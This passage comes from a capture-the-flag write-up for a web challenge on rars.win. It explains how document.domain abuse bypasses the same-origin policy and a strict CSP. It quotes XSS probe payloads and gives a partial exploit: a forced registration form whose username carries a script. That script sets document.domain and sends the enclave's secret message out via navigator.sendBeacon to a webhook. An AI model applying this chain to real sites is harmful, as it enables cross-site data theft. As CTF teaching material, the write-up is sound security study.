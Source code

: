 We can set arbitrary variables on the enclave however, but methods like setting `location.href = 'javascript:alert(1)'` or `document.body.innerHTML = '<img src=x onerror=alert(1) />'` don't work because the enclave has a strict CSP.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; style-src 'self' https://fonts.googleapis.com/css2; font-src 'self' https://fonts.gstatic.com;">
```

This CSP basically only allows scripts hosted on the website to work, making it hard for us to exploit.

### Exploit

Players probably got stuck here. Now, let's go over the intended solution, which was [document.domain](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain) abuse, something that I learned while researching ways to bypass SOP.

From the Mozilla docs:
> The domain property of the Document interface gets/sets the domain portion of the origin of the current document, as used by the same-origin policy.

> The setter for this property can be used to change a page's origin, and thus modify how certain security checks are performed. It can only be set to the same or a parent domain.

They show some examples on the docs if you want to learn more. But essentially, `document.domain` allows you to change the origin of any page, as long as it is to a parent domain (e.g. setting a subdomain of a site to a higher domain). If the origins are the same, the same origin policy is not violated, so we can directly manipulate both pages from each other.

This is a really dumb feature, which is why I'm glad it's deprecated. But now, the plan is simple. Set `document.domain` on both sites to `rars.win`, which works since `rars.win` is the parent domain is both. Since the origin of both sites is now the same, we can just directly access the `localStorage.message` variable. We create a script that does this, then set it to the username of a user we force the admin to register as.

Here's my payload below:
```html

<!DOCTYPE html>
<html>
    <body>
        <script>
            let form = document.createElement("form");
            form.method = "POST";
            form.action = "https://securestorage.rars.win/api/register";
            form.target = "target";

            let user = document.createElement("input");
            user.type = "text";
            user.name = "user";
            user.value = `
            <script>
            window.addEventListener('load', () => {
                window.frames[0].postMessage(
                    ["document.domain", "rars.win"], 
                    "https://secureenclave.rars.win/"
                ); 
                document.domain = "rars.win"; 
                setTimeout(() => navigator.sendBeacon(
                    "webhook", 
                    window.frames[0].document.body.innerText
                ), 500);
            }); 
            /* ${Math.random()} */ 
            </` + `script>
            `;
            form.appendChild(user);

```